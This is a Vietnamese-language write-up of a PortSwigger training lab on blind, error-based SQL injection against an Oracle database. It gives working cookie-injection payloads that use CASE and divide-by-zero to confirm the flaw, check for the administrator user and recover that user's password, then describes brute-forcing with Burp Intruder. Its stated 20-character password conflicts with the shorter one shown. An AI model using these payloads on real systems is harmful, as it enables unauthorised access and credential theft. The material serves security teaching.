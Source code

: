 # 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

> ⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều

## Condition error based SQLi

### 1. Vấn đề của Blind SQLi

Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về giágiá hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giông nhau nen không dùng được

### 2. Tạo lỗi có điều kiện ( Conditional Error )

Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụngdụng

```sql
CASE
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```

```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.

Ví dụ:

```sql
SELECT
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```

Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab

Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
Ghi lại hoạt động của người dùng (tracking).
Liên kết với session hoặc log để phân tích hành vi.
Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- B1. Thử trackingID có bị SQLi không
  ![alt text](image.png)
  ![alt text](image-1.png)

Chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> Có SQLi

- B2. thử `abc'||( select '' from dual)|| '` . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
  trong oracle '' = NULL trong mysql
  ![alt text](image-2.png)

-> Ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- B3. Thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
  backend hay không.

* FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
* FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
  Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
  ![alt text](image-3.png)

- B4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

- B5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

- B6. Tính độ dài của password

![alt text](image-8.png)
![alt text](image-9.png)

Password có độ dài bằng 20 kí tự .

- B7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list).
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theo).
Dùng Intruder như nào thì tự tìm hiểu nhé!

- Đây là ví dụ về kí tự đầu tiên
  ![alt text](image-10.png)

password ="sbeu5dvy8f"
